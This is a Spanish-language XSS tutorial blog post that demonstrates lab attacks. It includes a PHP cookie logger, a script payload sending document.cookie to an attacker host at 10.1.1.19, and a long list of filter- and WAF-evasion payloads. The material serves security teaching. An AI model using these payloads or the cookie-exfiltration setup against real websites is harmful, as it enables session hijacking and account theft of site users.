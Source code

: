 ```yaml
---
date: 2023-01-01T04:23:05.000Z
layout: post
comments: true
title: Cross Site Scripting (XSS)
subtitle: 'Secuencias de comandos en sitios cruzados'
description: >-
image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
optimized_image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - vulnerabilidad
  - reflejado
  - robo
  - cookie
  - persistente
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una vulnerabilidad que permite a un atacante controlar parte del contenido de una aplicación web, al explotar un XSS, el atacante puede realizar algunas de las siguientes opciones:

* Modificar contenido de el sitio.
* Inyectar contenido malicioso.
* Robar cookies de sesión.
* Realizar acciones en la aplicación web como si fuera un usuario legítimo.
* Entre otros.

Las vulnerabilidades XSS se producen cuando una aplicación web utiliza entradas de usuario no filtradas para construir el contenido de salida que se muestra a sus usuarios finales; esto permite a un atacante controlar el código HTML y JavaScript de salida, en donde la entrada de uso es cualquier parámetro procedente del lado del cliente de la aplicación web como por ejemplo:

* La peticiones en las cabeceras.
* Las cookies.
* Entradas de un formulario.
* Parámetros POST y GET.

### Identificación de Vulnerabilidad

La forma más simple de verificar un Cross Site Scripting es por medio de la siguiente inyección:

```js
<script>alert('XSS')</script>
```

![xsssimpletest1](/images/xsstest1.png)

![xsssimpletest2](/images/xsstest1result.png)

En aplicaciones web modernas, a veces se usan IFrames (ventanas incrustadas en una página web) para manejar la entrada de los usuarios. Estos IFrames pueden pertenecer a un dominio diferente al de la página principal. Si hay una vulnerabilidad XSS (Cross-Site Scripting) en el formulario dentro del IFrame, no necesariamente significa que la página web principal también sea vulnerable, ya que el IFrame está separado y aislado.

```js
<script>alert(window.origin)</script>
```

Al realizar una prueba de XSS, si usas ```window.origin``` en el mensaje de alerta en lugar de un valor fijo como "1" o "XSS", puedes identificar en qué URL o dominio se ejecuta el script. Esto es útil para determinar si el formulario vulnerable está en el IFrame o en la página principal. Si el cuadro de alerta muestra la URL del IFrame, confirma que la vulnerabilidad está ahí y no necesariamente en la página web principal.

> Una URL de IFrame se refiere a la dirección web que se carga dentro de un elemento IFrame en una página HTML. 

Otra opción de verificación es por medio de la herramienta ```xsser```, en donde se usará ```Burpsuite``` para extraer la información necesaria para realizar el ataque:

![burpxss](/images/xsstest1burp.png)

En la parte en que dice "test", se reemplaza por "XSS" y ejecutamos ```xsser``` con los siguiente parámetros:

```bash
┌──(root㉿kali)-[/XSS]
└─ xsser --url 'http://10.1.1.37/multillidae/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Y como se aprecia encontró la vulnerabilidad existente en este sitio web:

![xssertest1](/images/xsstest1xsser.png)

Otras opciones que se pueden tener en consideración son las siguientes:

|Opción   |Descripción  |
|-------------|----------|
|--auto|Aplica múltiples payloads para verificar la vulnerabilidad.|
|--Fp|Con este parámetro se puede testear un payload propio, ocupando la siguiente forma como ejemplo, ``` --Fp "<script>alert('XSS')</script>"``` |

Para este caso se habla de un XSS reflejado, pues los ataques reflejados se producen cuando la carga maliciosa se transporta dentro de la solicitud que el navegador de la víctima envía al sitio web vulnerable.

Pueden desencadenarse mediante la publicación de un enlace en una red social o a través de una campaña de phishing. Cuando los usuarios hacen clic en el enlace, desencadenan el ataque.

#### Ejemplo 2 de XSS Reflejado

Otra opción para explotar un XSS reflejado, es por medio del URL, como sucede en la siguiente situación:

![xssurl](/images/xsstest1url.png)

Para esta situación se pueden aplicar cierto filtros de URL Encode:

![xssurlencode](/images/xsstest1url2.png)


### XSS Persistente

Los ataques XSS persistentes se producen cuando la carga útil se envía al servidor web vulnerable y luego se almacena, es decir, el código malicioso se entrega cada vez que un navegador web accede a la página web inyectada.

Un ejemplo es el siguiente en que siempre mostrará la cookie de sesión del usuario, las veces que se ingrese a la web:

![xsssimplecookie](/images/xsstest2.png)

![xsssimplecookieresonse](/images/xsstest2persistentone.png)

Y si se recarga la web infectada, seguiremos recibiendo como una respuesta persistente la cookie de sesión:

![xsssimplecookiereload](/images/xsstest2reload.png)

![xsssimplecookiereloadpersist](/images/xsstest2reloadpersist.png)


### XSS Robo de Cookie

Tal como se mostró en el ejemplo anterior existe la opción de que por medio de un Cross Site Scripting se roben cookies de sesión, pero para esta situación enviaremos las cookies a un servidor que simule el del atacante, a través del siguiente archivo en php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

Luego para poder recibir las cookies nos montamos un servidor con python verificando que en la carpeta en que se inicie se encuentre el archivo ```log.php```:

```bash
┌──(root㉿kali)-[/XSS]
└─ ls
log.php

┌──(root㉿kali)-[/XSS]
└─ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Para este ejemplo inyectaremos el siguiente payload, el cual genera un objeto imagen y apunta su "src" a un script en el servidor del atacante (10.1.1.19):

```js
<script>var i = new Image(); i.src="http://10.1.1.19/log.php?q="+document.cookie;</script>
```

![xssservercookie](/images/xsstest3.png)

Y recibimos la cookie en nuestro servidor:

![xssservercookieresponse](/images/xsstest2pythonrec.png)

Este se recibirá las veces que se ingrese a la página web atacada:

![xssservercookiereload](/images/xsstest3reload.png)

![xssservercookiereloadpy](/images/xsstest3reloadpython.png)

### Evasión de filtros

```

<svg><circle><set onbegin=prompt(1) attributename=fill>
["');alert('XSS');//"]@xyz.xxx
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101))</SCRIPT>
%22%3E%3Csvg%20onload%3dalert%26%230000000040%22100%22)%3E
a%22%20accesskey%3d%22x%22%20onclick%3d%22alert(document.domain)%22%20test%3d%22test%3dxss
\u003e\u003cimg src=1 onerror=alert(0)\u003e
<abdool attr=" --- x="=='='onmouseover=confirm`abdool` style="display:block;width:1000px;height:1000px;background:red">
test"><img src=x on0x=1 onerror=alert(/POC/)>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ==")>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
javaScRipt:Alert(‘1’)
<svg onload=eval(location.hash.slice(1))>
"><svg/onload=alert%26%230000000040"Hacked")>
<iframe src="data:image/svg+xml;base64,CjxzdmcgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIj4KICA8aW1hZ2UgaHJlZj0ieCIgb25lcnJvcj0iamF2YXNjcmlwdDphbGVydCgncHduZWQgZXJuYW5zJykiIC8+Cjwvc3ZnPg=="/>
"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">
test"%20onmouseover="prompt%26%2300000000000000000040;%27XSS%27%26%2300000000000000000041;
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>
test@gmail.com%2527%5C%2522%253E%253Csvg%2Fonload%3Dalert%28%2Fxss%2F%29%253E
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:50px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
%09Jav%09ascript:alert(document.domain)
%3CSvg%20Only%3D1%20OnLoad%3Dconfirm(1)%3E
"%3e%3cImG%20sRC=X%20OneRRoR=alert(document.cookie)%20"%3c
xyz"/ng-click="constructor.constructor('alert(1)')()


```

### Recomendación

Todos estos canales de entrada deben ser validados por el servidor mediante funciones de seguridad bien implementadas que deben desinfectar o filtrar la entrada de los usuarios.
